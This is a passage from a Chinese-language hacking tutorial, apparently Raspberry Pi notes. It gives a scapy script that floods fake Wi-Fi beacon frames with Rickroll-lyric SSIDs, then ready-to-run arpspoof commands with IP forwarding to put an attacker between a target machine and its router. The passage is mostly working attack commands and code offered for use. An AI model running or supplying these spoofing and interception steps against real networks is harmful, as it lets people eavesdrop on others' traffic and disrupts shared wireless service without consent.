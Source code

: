 #### **步驟 4：編寫 Python 腳本**
使用 `scapy` 構造並發送信標框架。
1. **安裝 scapy**：
   ```bash
   sudo apt install -y python3-pip
   pip3 install scapy
   ```
2. **編寫腳本**（例如 `rickroll_beacon.py`）：
   ```python
   from scapy.all import *
   import time

   # Rickroll 歌詞作為 SSID
   ssids = ["Never Gonna", "Give You Up", "Let You Down", "Run Around", "And Desert You"]
   interface = "wlan0"

   # 構造並發送信標框架
   def send_beacon(ssid):
       dot11 = Dot11(type=0, subtype=8, addr1="ff:ff:ff:ff:ff:ff",  # 廣播地址
                     addr2=RandMAC(), addr3=RandMAC())  # 隨機 MAC
       beacon = Dot11Beacon(cap="ESS")
       essid = Dot11Elt(ID="SSID", info=ssid, len=len(ssid))
       frame = RadioTap()/dot11/beacon/essid
       print(f"Sending beacon: {ssid}")
       sendp(frame, iface=interface, count=100, inter=0.1)

   # 循環發送
   while True:
       for ssid in ssids:
           send_beacon(ssid)
           time.sleep(0.5)
   ```
3. **運行腳本**：
   ```bash
   sudo python3 rickroll_beacon.py
   ```

#### **步驟 5：測試**
- 在附近設備上掃描 WiFi 網路，應該能看到 "Never Gonna"、"Give You Up" 等假連線點。
- 若訊號微弱，可調整天線或移動 Pi 的位置。

---

## 監聽

### ARP Spoofing

```bash=
sudo apt-get update
sudo apt-get install dsniff wireshark

# Turn into managed mode
sudo ip link set wlan0 down
sudo iw dev wlan0 set type managed
sudo ip link set wlan0 up

# ip forward
sudo sysctl -w net.ipv4.ip_forward=1

# 欺騙目標機器，使其認為攻擊者是路由器
sudo arpspoof -i wlan0 -t 192.168.1.5 192.168.1.1

# 欺騙路由器，使其認為攻擊者是目標機器
sudo arpspoof -i wlan0 -t 192.168.1.1 192.168.1.5
```